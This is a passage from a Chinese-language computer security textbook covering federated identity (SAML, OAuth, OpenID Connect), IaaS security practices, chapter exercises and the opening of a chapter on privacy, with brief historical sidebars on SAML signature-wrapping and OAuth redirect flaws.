解决云身份管理问题的显而易见的方法是让每个用户单独在每个云提供商处注册一个用户账户。不幸的是，这种方法充满了问题。一个问题是它创造了新的漏洞机会。云提供商像许多公司一样，有时会被黑客攻击，并且不一定擅长保护用户的密码和个人信息。要求用户在许多不同的云提供商处创建新账户会增加这些用户个人信息被盗的几率，而且如果这些用户重复使用其他服务的密码，这种做法会使他们面临更大的危害。正如我们在第 2 章所述，许多用户不擅长选择和管理密码，给他们更多的密码来管理，特别是在敏感数据和功能面临风险时，是一个危险的主张。当用户为其 Facebook 和 Twitter 账户设置相同的弱密码时，他们只让自己处于危险之中。但当开发人员在涉及不同公司、不同合作伙伴和不同敏感数据的四个不同软件开发项目上使用相同的弱密码时，情况就完全不同了。

依赖云提供商进行身份管理也限制了组织为保护基于云的用户账户所能施加的控制：许多云提供商允许用户选择弱密码，或使用基本个人信息轻松重置密码（回想第 2 章中描述的对 Sarah Palin 电子邮件的攻击）。很少有云提供商提供多因素认证选项，即使这变得更普遍，用户也理所当然地会反对为了各种云服务而不得不随身携带一口袋访问令牌。

除了这些问题之外，还有一个管理问题：一旦用户不再需要访问权限（无论是由于离开组织还是职责变更），组织如何禁用该用户的所有账户？正如我们在第 2 章所述，在单个组织内分配和撤销访问权限就很难管理；有了多个云提供商，问题变得更具挑战性。大型组织可能使用数十甚至数百个云服务提供商，跟踪所有这些提供商，以及哪些用户拥有或需要哪些提供商的账户，可能是一场物流噩梦。云计算的一大优势是计算运营的管理责任转移给了云提供商。然而，随之而来的是一种诱惑，即忽视或忘记只有组织才能提供的身份管理需求。

如果让用户创建个人账户是一个糟糕的选择，那么让整个组织使用共享账户则是更糟的选择。让多个用户共享一个密码会大大增加该密码被盗的几率。更糟的是，在用户不当行为的情况下，无法辨别谁用哪些数据做了什么。最糟的是，每当用户离开组织或更换角色时，都必须更改密码，因为这是防止前授权用户继续访问账户的唯一方法。

这些问题的解决方案是一个称为**联合身份管理**（FIdM，我们在第 2 章中介绍过）的概念。FIdM“使身份信息能够在多个实体之间以及跨信任域进行开发和共享……为已识别的个人、身份提供商和信赖方提供‘**单点登录**’的便利和效率。”[GAR14] 简而言之，FIdM 允许一个组织或系统向另一个组织或系统证明用户的身份和权限。

有了 FIdM，一个系统维护用户的身份信息，其他系统在需要时查询该系统。例如，假设你在一家将其电子邮件系统外包给云提供商的公司工作。要访问你的电子邮件，你访问云提供商的网站并输入你的公司登录凭证——很可能就是你用于登录工作电脑的相同凭证。网站不再自行检查你的凭证，而是参考你公司的身份管理服务器来验证你的身份。因为你公司的身份管理服务器知道你的身份，它可以确认你的凭证并向云提供商发送一条授权你访问电子邮件的消息。图 8-4 描绘了此信息流，其中步骤 3 和 4 描绘了在传输登录凭证时绕过第三方提供商的替代方案（从安全角度来看这是首选方案）。


**图 8-4** FIdM 概念视图

FIdM 有效地解决了我们上面概述的所有云身份挑战。借助 FIdM 解决方案，用户可以使用访问公司系统的相同凭证访问公司的所有云服务提供商。因为云客户控制身份验证过程，他们可以指定适合他们的身份验证要求：例如最小密码长度、多因素认证或生物识别。FIdM 还极大地简化了治理问题，确保只有一个系统拥有创建、修改或删除用户账户的权限：客户的身份管理系统（通常是 LDAP 或 Microsoft Active Directory）。

虽然我们是在使用云服务的背景下介绍 FIdM，但我们在此介绍的联合技术并不局限于云场景。它们对于跨网络飞地或单个企业内部的安全上下文，或企业群组之间管理身份同样有价值。如果用户身份在一个环境中被提供、维护和认证，但需要这些身份的服务在单独的环境中运行，那么 FIdM 可能是个好主意。

### 安全断言标记语言

FIdM 运作需要两个前提条件：信任和标准化。请求身份信息的系统必须信任其接收到的数据，提供身份信息的系统必须信任接收方，并且这两个系统必须有一种标准的通信方式。**安全断言标记语言**（SAML）使此类交换成为可能。它是一种基于 XML 的标准，定义了系统安全交换用户身份和权限信息的方式。


# SAML 与 OAuth：联合身份管理详解

## 现实案例：学习管理系统 (LMS)

许多学校使用学习管理系统（LMS），如 Blackboard 和 Canvas，帮助教师与学生沟通。在典型的 LMS 中，每门课程都有一个网站，学生可以使用该网站提交作业、查看成绩、下载讲座并相互聊天。LMS 很适合 SaaS 部署，因为它们不处理极其敏感的数据，也不需要大量带宽。唯一潜在的障碍是身份问题：SaaS 如何知道哪些用户来自哪些学校？他们选了哪些课？刚退了哪些课？他们怎么知道自称是教师的人真的是教师？

在面对数百所学校和数千名学生时，这类身份挑战需要以自动化方式解决。下面是 SAML 如何实现这一过程的高层描述：学校注册 LMS 云服务后，提供商需要学校 SAML 身份服务器的 URL。当学生尝试访问 LMS 时，服务会将学生重定向到该身份服务器进行认证。学生认证成功后，身份服务器会将学生重定向回 LMS，这次会附带一条签名消息。该消息包含学生姓名、列出学生选修的课程，并包含 LMS 可能需要的任何其他身份属性。

## SAML 标准

SAML 标准 [OAS05a] 规定了各方可用于交换身份信息的 XML 消息，以及这些交换的协议和规则。SAML 消息通常通过 HTTP 传输，最适合基于 Web 的应用程序环境。HTTP 还提供了与 TLS 兼容的额外优势，我们强烈建议使用 TLS 来保护 SAML 通信。

## SAML 三方角色

SAML 定义了参与身份交换的三方（参见图 8-5）：

* **服务提供商（SP）**或**信赖方**：需要从第三方获取身份信息的 SAML 启用服务，如 LMS
* **主体**：试图登录 SP 的实体，无论是用户还是系统
* **身份提供商（IdP）**或**断言方**：能够认证主体并对主体身份做出断言的 SAML 启用系统


**图 8-5** SAML 认证

## SAML 认证流程

### 领域发现

当用户尝试访问 SP 时，SP 首先需要做的是确定要联系哪个 IdP，这个问题称为**领域发现**。云提供商可能有数千个客户 IdP，但必须将用户重定向到唯一拥有所需信息的那个。不同的 SP 以不同方式解决此问题。一种解决方案是为每个客户提供一个专用子域供用户连接：例如 `harvard.example.com` 或 `cornell.example.com`。另一种选择是让用户从下拉框中选择。

### 认证请求

无论领域发现如何进行，下一步都是 SP 构造一个认证请求。SAML 认证请求除其他元素外，包含 SP 的 URL（“Issuer”标签）、请求时间，以及一个可选的（但推荐的）数字签名。SAML 数字签名使用 XML 签名规范（XMLDSig），该规范定义了对 XML 消息进行签名以及对验证签名所需信息进行 XML 编码的规则和标签。

SP 将认证请求连同一个指向 IdP 的 HTTP 重定向一起发送回主体的浏览器，从而通过主体的系统将请求发送给 IdP。

### IdP 认证

此时，IdP 会呈现一个对主体进行认证的网页。虽然 SAML 定义了 IdP 可能使用的多种典型认证机制，但允许使用任何认证机制。SP 可能要求 IdP 使用强认证来保护关键系统，而 IdP 可能出于便利或一致性选择特定的认证机制。在大多数情况下，IdP 会向主体呈现典型的登录表单并接受普通域凭据，正如第 2 章所述。

### 认证响应与断言

主体认证成功后，IdP 会创建一个认证响应（有时称为“SAML 令牌”），其中包含一个或多个 SAML 断言。断言是 SAML 的核心，因为它们包含 SP 所需的身份信息。SAML 定义了三种类型的断言：

* **认证断言**：断言主体在特定时间通过特定方式进行了认证。
* **属性断言**：断言主体与提供的属性相关联。
* **授权决定断言**：允许断言主体访问指定资源的请求已被批准或拒绝。 [OAS05a]

本质上，认证断言告诉 SP 主体已成功登录；属性断言告诉 SP 主体是谁；授权决定告诉 SP 主体被允许查看和执行什么操作。断言除其他元素外，包含 IdP 的 URL、断言创建时间、可选签名，以及断言有效的可选条件。虽然签名是可选的，但强烈建议使用，因为这是防止恶意用户篡改断言以获取访问权限的最佳方式（尽管侧边栏 8-4 说明了为何这可能还不够）。加密对断言也很重要，因为它们可能包含安全相关或个人信息。

### 响应处理

认证响应创建后，IdP 将其发送回主体的浏览器，由浏览器转发给 SP。SP 应验证签名的有效性、解密消息，并根据断言为主体创建安全上下文。例如，如果断言声明主体是某课程的教师，则 LMS 应授予该主体编辑课程网站的权限。主体登录 SP 并开始会话后，SP 可以继续使用 SAML 查询 IdP。例如，如果学生试图从留言板删除同学的评论，LMS 可能会请求 IdP 做出授权决定，以确定是否允许该操作。

上述所有基础工作使大学系统能与云提供商系统无缝协作。学生导航至 LMS 网站，使用常规大学凭据登录，并看到其注册课程的链接列表。当他们在大学系统修改密码时，云提供商系统的密码实际上也随之改变。而当学生毕业时，他们会自动失去对 LMS 的访问权限。

---

### 侧边栏 8-4：为任何人签名

2012 年，一组德国研究人员宣布，他们发现了一种方法，可诱骗大多数 SAML 实现接受欺诈性断言。在 Usenix Security ’12 [SOM12] 上提交的一篇论文中，研究人员 Juraj Somorovsky、Andreas Mayer、Jorg Schwenk、Marco Kampmann 和 Meiko Jensen 描述了他们新颖的 XML 签名包裹攻击。发起攻击时，攻击者需要从 IdP 获取一条签名的 SAML 消息；鉴于 SAML 的性质，这并不困难。攻击者获得签名消息后，其目标是以如下方式向消息添加断言：

1. SP 将处理所有断言并据此采取行动；以及
2. SP 将不会在数字签名验证中包含新的 Assertion；也就是说，数字签名验证将会通过，因为它只针对原始 SAML 消息内容进行验证。

研究人员针对 14 种 SAML 实现测试了不同版本的攻击。他们的大部分精力集中在将原始 SAML 消息内容和新的 Assertion 移动到新 SAML 文档中的各种排列组合位置。他们的目标是发现哪些排列允许签名验证通过，哪些排列允许处理新的 Assertion，以及哪些排列允许两者同时发生。

在测试的 14 种实现中——包括当时最流行的那些——研究人员发现有 12 种容易受到该攻击某个版本的影响，因此可能被误导而允许攻击者冒充任何合法用户。研究人员并未确切主张这是 SAML 规范或 XMLDSig 的漏洞，而是主张漏洞的根本原因是标准的复杂性。这里有一个宝贵的教训：仅仅因为规范是安全的，并不意味着它有利于被安全地实现。

故事有一个圆满的结局。研究人员与所有 12 家受影响公司的安全团队密切合作，并于 2012 年 8 月报告称，他们发现的所有漏洞均已修复。

---

## OAuth

SAML 旨在处理用户和系统的身份验证、授权和单点登录，而 **OAuth** [HAR12] 则是为了处理 FIdM 的另一个方面而构建的：API 访问。OAuth 2.0 是一种授权标准，而非身份验证标准，其主要目的是授权第三方应用程序代表用户访问 API。例如，如果应用程序想要使用 Facebook 的 API 在用户的 Facebook 主页上发布消息，它会使用 OAuth 来获取权限。如果 PaaS 应用程序需要访问 SaaS 数据库或 STaaS 产品中的数据，OAuth 就是答案。

OAuth 不交换身份信息，只交换授权。让我们回到 Facebook 的例子：假设你刚下载了一个存储朋友联系信息的应用程序。如果你有数百个朋友，手动加载联系信息将是一个痛苦的过程。但如果该应用支持 OAuth，你可以授权它直接从你的 Facebook 账户获取你的好友列表及其联系信息。以下是其工作原理的摘要：首先，应用向 Facebook 的 OAuth 服务器发送请求，申请查看你的好友列表的权限。接下来，Facebook 要求你登录，你输入凭据。然后 Facebook 告诉你想要访问你账户的应用名称，以及该应用想要的确切权限，让你有机会拒绝部分或全部权限。一旦你确认应用的权限，Facebook 会发送一个令牌给它，供其用于登录。

OAuth 通过允许用户仅授予第三方应用程序所需的账户资源访问权限（强制执行最小权限原则），且无需共享密码，提供了很好的安全优势。这意味着如果应用程序被黑客攻破，用户的密码是安全的，攻击者只能获得该应用程序拥有的有限账户访问权限。一旦发现泄露，OAuth 允许服务提供商（或用户通过服务提供商）撤销应用程序的访问权限，而无需更改任何凭据。OAuth 的另一个优势是，与 SAML 不同，它被设计为可与原生应用程序配合工作，而不仅限于 Web 浏览器。

OAuth 预期所有通信均通过 HTTP 进行，并且像 SAML 一样，使用 HTTP 请求通过用户的设备传递令牌。当我们浏览图 8-6 中描绘的通信流程时，你会注意到完全没有提及签名或加密。这是因为 OAuth 框架未指定任何签名或加密；相反，它强烈建议在任何可能的地方使用 TLS。在 SAML 中，签名和加密很重要，因为它们保护 Assertion 免受恶意用户的篡改，确保其完整性和机密性。在 OAuth 令牌中，没有值得修改的数据，因此主要关注点是防止窃听者窃取机密信息。

### OAuth 四种角色

OAuth 定义了四种角色：

* **资源所有者**，类似于 SAML 主体，是拥有受密码保护的在线账户的用户。
* **资源服务器** 是 API 所在的服务器。
* **客户端**，类似于 SAML SP，是试图访问账户 API 的应用程序。
* **授权服务器**，类似于 SAML IdP，是能够对资源所有者进行身份验证并授予客户端访问资源服务器权限的服务器。


**图 8-6** OAuth 授权

### 客户端分类

OAuth 将客户端分为两类，这具有重要的安全含义：

* **机密客户端** 是 Web 应用程序，是两类中更安全的一类。最终用户无法读取机密客户端的后端代码，因此这些客户端可以存储密钥，以便向授权服务器进行自我认证。
* **公开客户端** 是原生应用程序，其代码可以被逆向工程。技术稍好的恶意用户可以轻松从公开客户端窃取密钥。因此，公开客户端不如机密客户端可信。

### 客户端注册

要构建一个 OAuth 客户端，你必须首先向你想要访问的服务注册。注册通常意味着你将应用程序的 URL 提供给授权服务器，授权服务器则给你一个唯一标识符（“客户端 ID”）和一个用于认证的客户端密钥（注意，这用于认证 OAuth 客户端，而非用户）。应用程序 URL 对机密客户端起着重要的安全作用：授权服务器将仅向该 URL 发送令牌。试图使用流氓客户端冒充你的客户端的攻击者，需要劫持你的 URL 才能成功。不幸的是，正如侧边栏 8-5 所示，并非所有授权服务器都强制执行此要求。

### 授权流程

用户通常通过浏览器或下载应用程序来访问 OAuth 客户端。当用户首次向客户端注册时，客户端会向授权服务器发送一个请求令牌。请求令牌包含客户端 ID、应用程序 URL 和请求的访问权限。作为对请求令牌的响应，授权服务器应该要求用户登录。理想情况下，客户端不应在此登录过程中充当中间人，因为与客户端共享用户密码违背了使用 OAuth 的初衷；遗憾的是，在实践中，OAuth 客户端往往确实会在此步骤中看到用户登录信息。

#### 公开客户端流程

以用户刚通过原生应用登录授权服务器为例，授权服务器直接将访问令牌发送给客户端。

#### 机密客户端流程

用户浏览器充当中间人，引入微小漏洞窗口。为解决此问题：

1. 授权服务器通过浏览器向客户端发送中间凭证——**授权码**。
2. 客户端需将授权码与客户端密钥直接发送给授权服务器。
3. 授权服务器验证后，颁发长效的访问令牌。

> **注意**：机密客户端通常是唯一持有客户端密钥的实体，此机制可合理保证仅真实客户端获取令牌。

#### 授权码安全机制

若授权服务器收到相同授权码两次，应立即撤销该码及其衍生令牌，因授权码极大概率已泄露。

### 访问令牌与刷新令牌

**访问令牌**是 OAuth 客户端用于登录资源服务器、代表用户调用 API 的凭证。

#### 安全最佳实践

* 访问令牌应在典型会话时长后过期（通常 1-2 小时），限制泄露风险。
* 授权服务器可向机密客户端颁发**刷新令牌**以获取更持久访问权限。
* 客户端需新访问令牌时，发送刷新令牌至授权服务器。
* 机密客户端通常永久存储刷新令牌，直至用户或服务提供商撤销授权。

---

### 侧边栏 8-5：漏洞归属辨析

技术媒体偶有夸大。新加坡南洋理工大学博士生王晶曝光 Facebook OAuth 实现缺陷后，媒体炒作升级。CNET 标题称“OAuth、OpenID 发现严重安全缺陷”[LOW14]。该缺陷名为“隐蔽重定向”，即 OAuth 规范要求客户端向授权服务器注册 URL 的潜在漏洞。Facebook 未限制客户端使用预注册 URL，导致实现层面脆弱。

次日，Symantec 官方博客 [SYM14a] 澄清：此事属规范中已明确处理的已知问题。

---

## OAuth 认证应用

### 结合 SAML 实现原生应用认证

若需 SAML 的身份管理与认证功能，但部署于原生应用而非浏览器，可结合 OAuth 与 SAML：

1. OAuth 客户端发送请求令牌至授权服务器。
2. 授权服务器重定向用户至其 SAML IdP 认证。
3. SAML 认证完成后，OAuth 授权流程正常继续。
4. OAuth 客户端仅需额外获知用户 IdP 名称。

### OpenID Connect (OIDC)

**OpenID Connect (OIDC)** 是联合认证新标准，2014 年作为 OpenID 重大更新推出，获 Google、Microsoft 即时支持，成为 SAML 强劲竞争者。

| 特性 | SAML | OIDC |
| :--- | :--- | :--- |
| 核心目的 | 企业级联合认证 | 通用互联网单凭证登录 |
| 客户端假设 | Web 浏览器 | 浏览器 + 原生应用 |
| 协议基础 | XML/SAML | OAuth 2.0 |
| 企业场景支持 | 原生强项 | 兼容支持 |
| 令牌保护 | 强制签名 | 可选签名（推荐） |
| 传输安全 | 视实现而定 | **强制 TLS** |

#### OIDC 核心差异

* **ID Token**：授权服务器借此对用户作认证声明（类似 SAML 断言）。
* **UserInfo Endpoint**：替代 OAuth 资源服务器，仅提供用户身份信息。
* **流程聚焦**：专注身份认证与 UserInfo 请求，而非通用 API 访问。

#### 安全特性继承与增强

* 继承 OAuth 可选签名特性（但规范推荐签名）。
* **强制大多数通信流使用 TLS**。
* ID Token 包含授权码和访问令牌的哈希值，提升抗滥用能力。


**图 8-7** OpenID Connect 认证流程

---

# 8.5 IaaS 安全防护

## 场景：MMO 游戏服务器架构挑战

开发大型多人在线（MMO）游戏，需共享宇宙交互服务器：

* **资源困境**：预算有限，玩家规模不可预测。
* **两难风险**：
  * 游戏冷门 → 基础设施投资浪费
  * 游戏爆火 → 玩家激增压垮服务器，扩容滞后于需求

## IaaS 和安全最佳实践

### IaaS 概述

这正是 IaaS 为解决而演变出的问题类型。IaaS 在基础设施层面支持快速弹性伸缩，允许你快速启动所需数量的服务器以满足需求，仅为实际使用的服务器付费。IaaS 几乎总是构建在虚拟化之上：服务提供商拥有庞大的服务器网络，每台服务器都有一个管理其虚拟机的管理程序（关于虚拟机和管理程序的讨论，请参见第 5 章）。这些管理程序反过来由**云计算平台**控制——一种在共享计算基础设施上供应、监控和管理工作负载的软件系统。云平台与管理程序、操作系统、网络设备和存储设备进行通信。它跟踪性能和利用率，启动和停止虚拟机，将虚拟机从一台服务器移动到另一台，重新配置虚拟网络，并分配存储。当用户要求 IaaS 提供商提供十个新虚拟机以满足流量需求时，云平台会寻找拥有空闲处理器核心和内存的服务器，将这些服务器指向包含所请求虚拟机的存储设备，重新配置虚拟网络，并请求管理程序启动虚拟机。

### 在 IaaS 上托管 MMO 服务器

要在 IaaS 上托管你的 MMO 服务器，首先需要指定服务器需求。你需要选择一个操作系统——大多数 IaaS 提供商支持多种 Windows 和 Linux 选项——并请求适当的处理能力、内存、网络能力和存储，以满足服务器的性能要求。然后提供商会给你一个模板虚拟机——所请求操作系统的基本配置，供你在此基础上构建。接着你运行此虚拟机，并通过安装额外软件、配置安全控制等方式开始对其进行更改。一旦虚拟机设置完成，安装好 MMO 软件并准备运行，你会将该虚拟机另存为一个新模板，这将成为你用于供应新服务器的模板。

### 运营优势

现在，当你的游戏准备发布时，你已经卸下了许多负担。你无需担心购买、存放或冷却服务器，确保拥有足够的网络带宽，或维护服务器间的版本控制。取而代之的是，你在 IaaS 环境中启动同一虚拟机的几个副本，然后监控这些服务器的负载情况。如果其中一台服务器因用户过多导致其处理器、内存或网络带宽过载，就启动一个新的虚拟机实例并将部分用户转移到该服务器。如果你的虚拟机利用率不足，则采取相反操作。有些提供商甚至会为你自动化这种扩缩容。你可以拥有恰好满足需求所需的服务器和通信基础设施，同时承担最小的风险。

### IaaS 安全最佳实践

你现在了解了什么是 IaaS 以及它是如何工作的，因此本节其余部分重点介绍安全使用 IaaS 的最佳实践。我们特别关注公共 IaaS 产品，以及保护它们与保护私有网络有何不同。

#### 公共 IaaS 与私有网络安全

公共 IaaS 与传统网络之间有三个显著差异，应影响你的安全策略：

1.  正如我们在本章前面提到的，IaaS 中的共享基础设施带来了需要应对的新威胁。
2.  访问和控制 IaaS 主机的方式通常比传统主机更多，包括通过 API。


### 3. IaaS 通过使部署新虚拟机和私有网络变得简单廉价，消除了许多传统的网络安全约束。

在接下来的三节中，我们将介绍这些差异中的每一个，以及每一个可能如何影响你的安全部署。

#### 共享基础设施

本章前面我们简要探讨了共享基础设施可能引发的一些攻击。简而言之，几乎任何硬件或虚拟设备都可能向攻击者泄露数据，有些甚至能造成更大危害。当然，在 IaaS 中，人们几乎无法控制处理器温度，甚至无法控制管理程序补丁，但可以应对几个共享基础设施威胁。

第一个是共享存储的威胁。当你在云中删除文件时，文件系统会将其解除分配——即“忘记”它的存在——但该文件会留在硬盘的某个位置，直到被覆盖。云提供商通常在将存储分配给新用户之前会覆盖存储以保护机密性，但你没有理由必须相信这始终一致地发生：你可以相当容易地自行降低该风险。一种选择是使用商业加密产品加密敏感文件，在这种情况下，你无需关心已删除的文件是否被覆盖，因为无论如何它都是不可读的。另一种选择是使用“擦除”数据的删除工具，多次覆盖数据使其无法恢复。然而，第二种选择比第一种更难强制执行，且无法为尚未删除的数据提供机密性，因此加密应是你的首选方案。

另一个可应对的威胁是共享网络。IaaS 提供商使用逻辑访问控制确保用户无法在 IaaS 环境内嗅探彼此的网络流量。尽管如此，如果你能承担加密所有潜在敏感 IaaS 网络流量（包括仅在同一 IaaS 环境内虚拟机之间传输的流量）的性能损耗，`TLS`、`SSH` 或 `VPN` 将提供强有力的第二层保护。

#### 主机访问

你的 IaaS 提供商很可能允许你通过基于 Web 的控制台界面或 `API` 来控制主机，这除了主机本身可能运行的任何网络服务（例如 `SSH` 或远程桌面协议）之外。IaaS 提供的控制台和 `API` 与运行在你的虚拟机主机上的服务之间的区别在于，你无法在控制台或 `API` 前面部署网络防护。保护这些接口的最佳做法是使用强身份验证。身份验证选项因提供商而异，但如果可用，请考虑以下事项：

*   要求控制台界面使用多因素身份验证。
*   不要共享账户，也不要给予任何账户超出必要的权限。
*   使用 `OAuth` 而非密码授予应用程序访问 `API` 接口的权限，并尽可能限制这些应用程序的权限。
*   尽可能使用 `FIdM`（联合身份管理），以便你仅管理一组用户账户。

#### 虚拟基础设施

如果你直接在一台强大的服务器上安装操作系统，然后仅用该操作系统处理少量、偶尔的请求，服务器的大部分能力将被浪费。但如果你在该服务器上安装管理程序，并在其上运行虚拟机，那么虚拟机未充分利用硬件能力就无关紧要了：这只是意味着你可以运行更多虚拟机。虚拟基础设施消除了运行服务于高度专用目的的虚拟机的负罪感。事实上，在 IaaS 环境中，让每个虚拟机尽可能专用化是一种极佳的（尽管昂贵的）安全实践。例如，如果你计划在 IaaS 环境中运行 `FTP` 服务器，请专门构建一个用于提供 `FTP` 服务的虚拟机镜像。关闭运行 `FTP` 或保护系统所需之外的每一项服务。运行`应用程序白名单`软件，将操作系统限制为仅运行你列出的可执行文件，这些文件应为最低限度的必要文件。配置基于主机的防火墙，将网络流量（入站和出站）限制为运行 `FTP`、维护操作系统和维护安全所绝对必要的内容。关闭每一个不需要的特权。这听起来可能令人望而生畏，但 IaaS 环境使其变得相当简单。创建一个强化的虚拟机可能具有挑战性，但一旦为特定功能创建了虚拟机，维护它主要只是补丁管理工作。

正如您出于安全原因希望专用化 `VM` 一样，您也希望专用化网络。IaaS 提供商通常为客户提供选项，可轻松将系统隔离到无法从互联网寻址的私有网络飞地中。使用这些私有飞地按功能隔离您的系统（参见图 8-8）。例如，将 `FTP` 服务器放在一个飞地中，将 `Web` 服务器放在另一个飞地中。使用防火墙规则保护每个飞地，将流量限制在您已知必要的范围内。执行所有这些操作将最大程度地限制每个系统的暴露面，并有助于防止攻击在您的系统间蔓延。当然，这些系统大多将是必须以某种方式从互联网访问的服务器；为此，请使用应用代理服务器将流量中继到私有飞地中。您可能希望将我们在第 6 章中讨论的典型边界防护设备——防火墙、`IDS`、`IPS` 及其同类——放置在位于互联网和代理服务器之间的 `VM` 中。


**图 8-8** IaaS 安全飞地

您的 `VM` 必须运行 `SSH` 或某种屏幕共享软件，以便您对其进行管理。限制对这些服务的访问：它们是攻击者的主要目标。实现这一点的一种方法是使用网络 `ACL` 限制 `SSH` 和屏幕共享流量，使连接必须源自您的 `IP` 地址空间。您还可以使用日志数据来发现并调查针对这些服务的登录失败尝试。您应从所有 `VM` 收集日志数据，但除非绝对必要，请勿将日志数据存储在与您的 `VM` 相同的 IaaS 基础设施上。如果 IaaS 基础设施遭到入侵，攻击者不应有机会通过擦除日志来掩盖踪迹。

实施和维护我们推荐的所有 IaaS 控制措施并非易事，但非常值得。除了这些针对 IaaS 的控制建议外，本书中描述的所有网络和操作系统安全最佳实践均适用于 IaaS 环境。如果您能真正通过将系统限制在最低限度的功能来最小化 `VM` 和网络攻击面，攻击者将极难有所作为。即使攻击者设法控制了您的某个 `VM` 或飞地，严格受限的用户权限结合应用程序白名单也应有助于防止进一步损害。

### 8.6 结论

云具有五个定义特征：

*   **按需自助服务**
*   **广泛的网络访问**
*   **资源池化**
*   **快速弹性**
*   **计量服务**

有三种基本类型的云服务——`SaaS`、`PaaS` 和 `IaaS`——以及四种基本服务模型：公有、私有、社区和混合。云服务和服务模型的选择应建立在仔细的风险分析和云提供商评估基础之上。

云服务使客户面临新威胁，但也可以成为有用的安全工具。它们对于可用性以及增强小型组织的安全性特别有帮助。

云客户在应对发生在云提供商系统上的安全事件时，可预期拥有有限的选择。客户应主动与云提供商合作，了解在这些情况下将提供何种支持。

`FIdM` 允许云客户使用云资源，而无需额外的一组登录凭据。它还允许所有登录凭据和认证选项由客户组织集中管理。`SAML` 和 `OIDC` 目前是用于认证的主流 `FIdM` 标准，而 `OAuth` 是用于 `API` 授权的主流 `FIdM` 标准。

保护 IaaS 意味着在充分利用 `VM` 和虚拟网络的安全优势的同时，保护您的系统免受共享基础设施带来的威胁。在使用共享基础设施时，审慎地使用加密（无论是传输中数据还是静态数据）至关重要。`VM` 应被隔离在飞地中，并配置为高度专用化，以最大程度地减少其攻击面和成功攻击的影响。

#### 领域发展方向

云计算安全研究的大部分集中在通过共享基础设施发起的攻击上。Zhang 等人关于跨 `VM` 侧信道攻击的研究[ZHA12]是这一趋势的有力例证。另一方面，由 MIT 的 Shafi Goldwasser 领导的研究人员[GOL13]正在研究同态加密，这是一种技术，将来可能允许用户在共享基础设施上处理数据，而无需解密。UCLA 的研究人员正在引领密码学混淆[GAR13]方面的工作，这将来可能允许用户在共享基础设施上运行软件，而不会冒任何其他基础设施用户甚至识别出该软件功能的风险。

波士顿大学的一个研究团队正在创建他们所谓的云安全模块化方法（`MACS`）。`MACS` 的目标是从小型模块化组件构建云基础设施，每个组件都有自己的安全保证。他们的目标是将这些组件组装成比当今云环境中存在的系统具有更强、更可分析安全性的系统。

#### 了解更多

CSA 的安全指导白皮书[CSA11]全面概述了云安全问题。NIST SP 800-144[JAN11]、800-145[MEL11] 和 800-146[BAD12] 提供了进一步的云安全指导。

有关取证证据收集的更详细指南，请参阅 `RFC 3227`[BRE02b]。

要更完整地了解 `SAML`，请参阅 `SAML` 协议标准[OAS05a] 和 `SAML` 安全关注标准[OAS05b]。对于有兴趣构建支持 `OAuth` 服务的开发人员，`RFC 6819`[LOD13] 详细列出了与 `OAuth 2.0` 相关的威胁和建议的对策。其他典型的 `OAuth` 信息流和用例定义在 `RFC 6749`[HAR12] 中。

Todorov 和 Ozkan 的白皮书[TOD13] 提供了 IaaS 最佳实践的有力概述。

### 8.7 练习

**1.** 解释公有云、私有云和社区云之间的区别。在选择使用哪一种时应考虑哪些因素？

**2.** 云威胁与传统威胁有何不同？云服务通常对哪些威胁比本地服务更有效？

**3.** 您正在云环境中开设一家在线商店。您可能会使用哪三种安全控制来保护客户的信用卡信息？假设该信息需要存储。

**4.** 定义 `TNO`。列出三种应希望使用 `TNO` 加密的数据类型。

**5.** 云服务如何使 `DLP` 更加困难？希望实施 `DLP` 的客户如何缓解此问题？

**6.** 您在 IaaS 环境中运行一个网站。您醒来发现网站被篡改。假设您在此环境中运行 `Web` 服务器和 `FTP` 服务器，且应用代理和防火墙位于这些服务器与互联网之间。您所有的 `VM` 都在运行 `SSH` 服务器。哪些日志可能有助于确定网站是如何被篡改的？您会寻找什么样的信息？

## 9. 隐私

***

本章内容：

*   隐私作为安全的一个方面；机密性
*   认证对隐私的影响
*   隐私与互联网

***

计算机并未发明甚至导致隐私问题；早在计算机出现之前，甚至可能在书面语言出现之前，我们就存在这些问题。但计算机的高速处理、数据存储和传输能力，使得影响隐私的数据收集和关联成为可能。因为隐私是机密性的一部分，所以它是计算机安全的一个方面。

隐私是一项人权，尽管人们对于何时或在何种程度上享有隐私权可能存在合理的分歧；这种分歧可能源于文化、历史或个人因素。法律和伦理（我们将在第 12 章中学习）可以设定并强制执行隐私期望的基准。而经济学（我们将在第 13 章中探讨）可以决定我们能够或愿意提供多少隐私保护。但从根本上说，隐私权取决于期望隐私的情境、数据的所有权和持久性，以及受影响方的法律权利和责任。此外，正如机密性、完整性和可用性可能发生冲突一样，隐私与安全的其他方面也可能发生冲突。我们不主张隐私权何时应具有可强制执行性，因为这超出了本书的范围。你可以这样理解本章的阐述方式：“假设存在某项特定的隐私权，那么它在计算和信息技术中的含义是什么？”作为公民，我们帮助决策者确定隐私权的轮廓；作为计算机安全专家，我们在计算机系统中设计并实施这些决策。

由于隐私作为一个主题的范围比其对安全的影响更广，因此在本章中我们仅限于讨论那些与计算机安全密不可分的隐私问题。因此，在本章中，我们将探讨信息隐私的含义。我们将重新审视识别和认证，这两个熟悉的计算方面具有重要的隐私含义。我们将研究隐私与互联网的关系，特别是在电子邮件和 `Web` 访问方面。最后，我们将调查一些隐私至关重要的新兴基于计算机的技术。

### 9.1 隐私概念

在本节中，我们将探讨隐私，首先从其一般或通用的用法入手，然后是它在技术情境中的应用。

#### 信息隐私的方面

信息隐私有三个方面：敏感数据、受影响方和受控披露。事实上，这些方面类似于第 2 章中访问控制的三个要素：主体、客体和访问权限。我们依次考察这三个方面。

##### 受控披露

什么是隐私？一个好的工作定义是：隐私是控制谁了解你、你的通信和你的活动的某些方面的权利。换句话说，你自愿选择谁可以了解你的哪些事情。人们可能会向你索要电话号码：你的汽车修理工、店员、税务机关、新的业务联系人或新朋友。在每种情况下，你都会考虑对方想要该号码的原因，然后决定是否提供。但关键在于*你*来决定。因此，隐私是你可以施加相当大影响的事物。

> **隐私是控制谁了解你某些事情的权利。**

然而，你并没有完全的控制权。一旦你将号码给了某人或某个系统，你的控制力就会减弱，因为这部分取决于该人或系统如何处理该信息。在提供号码时，你实际上是在将权威和控制权转移或让渡给其他人或其他事物。你可以说“不要把我的号码给别人”、“请慎重处理”或“我很看重我的隐私”，但你无法控制对方或系统。你必须信任对方或系统遵守你的意愿，无论你是否明确表达了这些意愿。这个问题类似于计算机安全中的传播问题：任何有权访问对象的人都可以在没有限制的情况下复制、传输或向他人传播该对象或其内容。即使你指定在一定时间后应删除或销毁该对象，你也无法验证系统或人员是否真的销毁了内容。
